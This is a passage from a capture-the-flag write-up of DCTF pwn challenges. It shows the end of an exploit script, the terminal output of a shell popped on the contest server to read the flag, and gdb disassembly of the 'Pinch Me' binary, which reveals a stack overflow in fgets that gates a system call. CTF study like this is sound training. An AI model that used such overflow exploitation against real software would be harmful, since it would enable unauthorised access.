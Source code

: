 ```asm
p.interactive()
```
Running the exploit:-

```asm

❯ python3 pwn_sanity.py
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
$ 

Pinch Me
```


This challenge was also simple, loading the binary in gdb and checking the functions it contains, we can see that there’s a main function and vuln functions which are of interest:-

```asm

gef➤  disas main
Dump of assembler code for function main:
   0x00000000004011d5 <+0>:    push   rbp
   0x00000000004011d6 <+1>:    mov    rbp,rsp
   0x00000000004011d9 <+4>:    mov    edi,0xa
   0x00000000004011de <+9>:    call   0x401050 <alarm@plt>
   0x00000000004011e3 <+14>:    mov    eax,0x0
   0x00000000004011e8 <+19>:    call   0x401152 <vuln>
   0x00000000004011ed <+24>:    mov    eax,0x0
   0x00000000004011f2 <+29>:    pop    rbp
   0x00000000004011f3 <+30>:    ret    
End of assembler dump.
gef➤  disas vuln 
Dump of assembler code for function vuln:
   0x0000000000401152 <+0>:    push   rbp
   0x0000000000401153 <+1>:    mov    rbp,rsp
   0x0000000000401156 <+4>:    sub    rsp,0x20
   0x000000000040115a <+8>:    mov    DWORD PTR [rbp-0x4],0x1234567
   0x0000000000401161 <+15>:    mov    DWORD PTR [rbp-0x8],0x89abcdef
   0x0000000000401168 <+22>:    lea    rdi,[rip+0xe99]        # 0x402008
   0x000000000040116f <+29>:    call   0x401030 <puts@plt>
   0x0000000000401174 <+34>:    lea    rdi,[rip+0xebd]        # 0x402038
   0x000000000040117b <+41>:    call   0x401030 <puts@plt>
   0x0000000000401180 <+46>:    mov    rdx,QWORD PTR [rip+0x2ec9]        # 0x404050 <stdin@@GLIBC_2.2.5>
   0x0000000000401187 <+53>:    lea    rax,[rbp-0x20]
   0x000000000040118b <+57>:    mov    esi,0x64
   0x0000000000401190 <+62>:    mov    rdi,rax
   0x0000000000401193 <+65>:    call   0x401060 <fgets@plt>
   0x0000000000401198 <+70>:    cmp    DWORD PTR [rbp-0x8],0x1337c0de
   0x000000000040119f <+77>:    jne    0x4011af <vuln+93>
   0x00000000004011a1 <+79>:    lea    rdi,[rip+0xe9f]        # 0x402047
   0x00000000004011a8 <+86>:    call   0x401040 <system@plt>
   0x00000000004011ad <+91>:    jmp    0x4011d2 <vuln+128>
   0x00000000004011af <+93>:    cmp    DWORD PTR [rbp-0x4],0x1234567
   0x00000000004011b6 <+100>:    je     0x4011c6 <vuln+116>
   0x00000000004011b8 <+102>:    lea    rdi,[rip+0xe90]        # 0x40204f
   0x00000000004011bf <+109>:    call   0x401030 <puts@plt>
```